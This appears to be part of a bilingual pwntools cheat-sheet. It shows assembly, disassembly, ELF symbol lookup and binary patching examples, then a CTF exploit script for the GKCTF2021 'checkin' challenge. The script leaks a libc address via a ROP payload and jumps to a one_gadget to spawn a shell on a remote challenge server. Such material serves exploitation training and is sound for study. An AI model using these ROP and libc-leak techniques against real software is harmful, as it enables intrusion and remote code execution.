 > `pwnlib.asm`

```python
enhex(asm('mov eax, 0')) # 'b800000000'  # assembly to machine code # 汇编转机器码(hex)
print(disasm(unhex('6a0258cd80ebf9'))) # machine code to readable assembly
# Output: 
   0:   6a 02                   push   0x2
   2:   58                      pop    eax
   3:   cd 80                   int    0x80
   5:   eb f9                   jmp    0x0
```



```python
e = ELF('/bin/cat')
print(hex(e.address)) #doctest: +SKIP # 0x400000
print(hex(e.symbols['write'])) #doctest: +SKIP # 0x401680
print(hex(e.got['write'])) #doctest: +SKIP # 0x60b070
print(hex(e.plt['write'])) #doctest: +SKIP # 0x401680

# patch and save the files # 打补丁并保存
e = ELF('/bin/cat')
e.read(e.address, 4) # b'\x7fELF'
e.asm(e.address, 'ret') # 将 e.address 地址处的汇编改为 ret
e.save('/tmp/quiet-cat')
disasm(open('/tmp/quiet-cat','rb').read(1))
'   0:   c3                      ret'
```



### Cases

> 这里列举的代码通常去掉了很多功能重复的语句，一般无法直接运行也无法解题

```python
from pwn import *   # ROP_double_leave_tiny_rop_GKCTF2021_checkin # truncated

context.log_level = "DEBUG"
context.binary = "./pwn"
# sh = process(["ld.so", "pwn"], env={"LD_PRELOAD":"libc.so"})
# sh = process("./pwn", env={"LD_PRELOAD": "./libc.so.6"})
# sh = process(["ld.so", "pwn"],env=xxx)
sh = remote("node3.buuoj.cn", 27490)
libc = ELF("./libc.so.6")
elf = ELF("./pwn")
gdb.attach(sh, "b *(0x401972)\nb *(0x40191C)\nc")
#gdb.attach(sh, "b *$rebase(0x0000000000000F43)")
payload = b"admin\0".ljust(0x8, b'\0') + p64(0x401ab3) + p64(elf.got['puts']) + p64(0x4018B5)
sh.sendafter(">", payload)

data = sh.recvuntil("GeBai\n")
addr_puts = u64(sh.recvline(keepends=False).ljust(8, b'\0')) # 注意这里接收64bit系统函数地址后的操作
libc.address = addr_puts - libc.sym['puts']
print("libc.address =", hex(libc.address))

payload = b"admin\0".ljust(0x18, b'\0') + p64(libc.address + 0xf1247) # one_gadget: 0x45226 0x4527a 0xf03a4 0xf1247
sh.sendafter(">", payload)

sh.interactive()
```
